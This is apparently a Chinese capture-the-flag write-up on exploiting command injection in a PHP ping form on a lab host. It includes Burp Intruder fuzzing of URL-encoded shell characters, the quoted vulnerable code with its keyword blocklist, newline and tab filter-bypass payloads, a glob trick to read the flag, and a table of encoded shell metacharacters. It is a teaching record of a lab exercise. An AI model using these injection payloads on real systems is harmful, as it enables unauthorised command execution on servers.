






打开靶机网页就显示这一段代码

这段代码写的是：如果`$_POST['ip']`被设置了，那么就将用户输入的`ip`赋给`$ip`这个变量，然后将`$ip`传`ping()`函数，得到的结果赋值给`$ip_result`然后echo打印出来。这里很明显可以进行**命令注入**
:::tip
很明显这就是一个ping ip的一段代码，通过输入ip，服务器端通过ping()函数ping一下我们输入的ip，然后返回结果给我们。而根据这段代码，我们可以发现一个可能存在的漏洞，代码中的`$_POST['ip']`可能没有进行任何的过滤或者只进行部分过滤，而ping()函数大概率里面也是包含`exec()`、`shell_exec()`、`system()` 或反引号等执行系统命令，因此这个ip里除了输入ip外，我们可以额外输入我们想要的任何命令，比如**ip = 127.0.0.1；ls**以此来获得我们想要的东西。
:::
知道了这题可以命令注入后，我们打开BurpSuite，先在proxy拦截靶机网页，然后发送到repeater里
然后在repeater里将请求改为如下先测试：
```
POST / HTTP/1.1
Host: 20560aa401999ec82465da7ffb704e71.chal.cnss.studio
content-type:application/x-www-form-urlencoded

ip=127.0.0.1
```
返回的结果如图：
然后我们继续测试`ip=127.0.0.1;ls`、`ip=127.0.0.1 `(多了个空格)、`ip=127.0.0.1 | id`这些全部返回了Invalid input这说明php里应该对我们输入的代码进行了过滤，按照经验，例如空格直接输入不行，可以尝试%20，然而我试过`ip=127.0.0.1%20`，依旧是显示Invalid input，所以我将proxy的请求发送到了intruder对单个字符进行爆破，看看哪些字符没有被过滤。我用了一些常见的url编码字符(文章末尾附加字符解释)：
```
%20
%09
%0a
%0d
%3b
%26
%7c
%60
%24
%28
%29
%3c
%3e
%23
%27
%22
%5c
%2f
%2e
%3f
%2a
```


打开intruder，先输入
```
POST / HTTP/2
Host: 20560aa401999ec82465da7ffb704e71.chal.cnss.studio
Content-Type: application/x-www-form-urlencoded
Content-Length: 17

ip=127.0.0.1
```
然后在末尾点击`Add`
然后在payload里找到payload Configuration，复制刚才我那些常见url编码，点击paste就能一键粘贴进去了，然后记得在payload界面往下拉到底，取消勾选
然后在setting的grep match里删除原有的词汇，然后添加Invalid input，添加好后就可以开始attack了，点击后找到Invalid input那一列，点击那些不显示1的结果，发现除了Invalid input，还会显示Failed to execute command，所以我们在grep match中添加上，然后再一次进行攻击，找到它们两列，点击那些全都不显示1的结果，发现只有%09(TAB)和%0a(换行)返回正常结果，所以我们就可以构造这样的ip：`ip=127.0.0.1%0als%09`
:::tip
%09在shell中被视为空格，这是shell的规则
:::
在repeater发送请求返回了如图
可以看到结果中除了返回ping的结果，还返回了当前目录下的文件，只有index.php所以我们使用这条命令：`ip=127.0.0.1%0acat%09index.php`
得到了
```php
<?php<br />
function validate_input($input) {<br />
    $invalid_chars = array("sh","bash","chown"," ", "chmod", "echo", "+", "&",";", "|", ">", "<", "`", "\\", "\"", "'", "(", ")", "{", "}", "[", "]");<br />
    foreach ($invalid_chars as $invalid_char) {<br />
        if (strpos($input, $invalid_char) !== false) {<br />
            return false;<br />
        }<br />
    }<br />
<br />
    if (preg_match("/.*f.*l.*a.*g.*/", $input)) {<br />
        return false;<br />
    }<br />
<br />
    return true;<br />
}<br />
<br />
function ping($ip_address) {<br />
    if (!validate_input($ip_address)) {<br />
        return "Error: Invalid input.";<br />
    }<br />
<br />
    $cmd = "ping -c 2 " .$ip_address;<br />
    exec($cmd, $output, $return_code);<br />
<br />
<br />
    if ($return_code !== 0) {<br />
	echo("Error: Failed to execute command.");<br />
    }<br />
<br />
    return implode("\n", $output);<br />
}<br />
<br />
if (isset($_POST['ip'])) {<br />
    $ip = $_POST['ip'];<br />
    $ping_result = ping($ip);<br />
    echo nl2br($ping_result); // 输出ping结果并保留换行<br />
}<br />
?>
```
代码中有条`if (preg_match("/.*f.*l.*a.*g.*/", $input)) {return false;}`这条命令说的是如果我写的请求中，无论我怎么写，只要f,l,a,g在语句中按顺序出现就会被屏蔽，无论这两辆字母间加了多少其他字符，比如我写 `f`swe`l`wer`a`sd`g`无论中间有多少字符，只要按顺序就会被屏蔽。这里有个很简单的方法就是用`cat fl*`或者`cat fl?g`这两种写法，只要目录有flag，shell都能自动补全，这样就避免了这种屏蔽。而现在我们要找flag究竟在哪里，最首先想到的就是查看根目录，发送`ip=127.0.0.1%0als%09/`。很幸与的是，根目录确实有flag文件所以我们直接发送`ip=127.0.0.1%0acat%09/fl*`或者`ip=127.0.0.1%0acat%09/fl?g`就能得到flag

其实还有一种方法，就是x=ag y=fl cat /$y$x也可以得出flag,`ip=127.0.0.1%0ax=ag%0ay=fl%0acat%09/$y$x`
```
cnss{lxiTRbE7BjYZYmd2o8HMVZAMXkzT}
```


### 常见URL编码
| URL编码 | 代表字符 | 核心用途（Shell环境） |
| :--- | :--- | :--- |
| `%20` | 空格 | 标准空格分隔参数 |
| `%09` | Tab | 替代空格分隔参数 |
| `%0A` | LF（换行） | **执行新命令（绕过黑名单利器）** |
| `%0D` | CR（回车） | 配合换行使用 |
| `%3B` | `;` | 顺序执行多条命令 |
| `%26` | `&` | 后台运行（`%26%26` 代表 `&&`） |
| `%7C` | `\|` | 管道符（`%7C%7C` 代表 `\|\|`） |
| `%60` |  `` ` `` 反引号| 执行命令并返回结果 |
| `%24` | `$` | 用于 `$(whoami)` 命令替换 |
| `%28` | `(` | 左括号 |
| `%29` | `)` | 右括号 |
| `%3C` | `<` | 输入重定向 |
| `%3E` | `>` | 输出重定向（覆盖） |
| `%3E%3E` | `>>` | 追加输出重定向 |
| `%23` | `#` | 注释符（忽略后续） |
| `%27` | `'` | 单引号 |
| `%22` | `"` | 双引号 |
| `%5C` | `\` | 反斜杠（转义） |
| `%2F` | `/` | 路径分隔符 |
| `%2E` | `.` | 点号 |
| `%3F` | `?` | 通配符/查询起始 |
| `%2A` | `*` | 通配符（匹配任意） |